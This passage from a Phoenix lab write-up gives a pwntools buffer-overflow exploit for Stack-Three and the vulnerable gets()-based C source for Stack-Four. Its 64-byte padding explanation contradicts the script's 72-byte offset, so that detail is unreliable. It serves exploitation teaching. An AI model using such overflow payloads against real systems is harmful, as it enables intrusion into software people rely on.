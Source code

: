 Back to calculating how much padding we need - we can see that `var_10h`(`locals.fp`) begins at `rbp - 0x10` and `char *s`(`buffer`) begins at `rbp - 0x50`.
This means that we need to feed `64 bytes` through the buffer to reach `locals.fp`, and then provide the address of `complete_level()` to finish the challenge.

Final Exploit:
```python
from pwn import *

# create a proces with ELF file
p = process('./vuln')
e = ELF('./vuln')

# variables
BUF_LEN = 72 # bytes to $rip
complete_level = e.symbols['complete_level'] # address of complete_level

# payload
payload = b'A'*BUF_LEN
payload += p64(complete_level) # address of complete_level in little endian

# receive
p.recvuntil(b'Welcome to Stack-Three, brought to you by https://exploit.education')

# send payload
p.sendline(payload)

# do this
p.interactive()
```

Great success!

[stackthreesuccess](../Images/PhoenixExploit/stackthreesuccess.jpg)

---
### Stack-Four
Stack-Four introduces buffer overflow to overwrite the instruction pointer.

Source code:
```c
#define BANNER "Welcome to Stack-Four, brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished Stack-Four :-) Well done!\n");
  exit(0);
}

void start_level() {
  char buffer[64];
  void *ret;

  gets(buffer);

  ret = __builtin_return_address(0);
  printf("and will be returning to %p\n", ret);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```
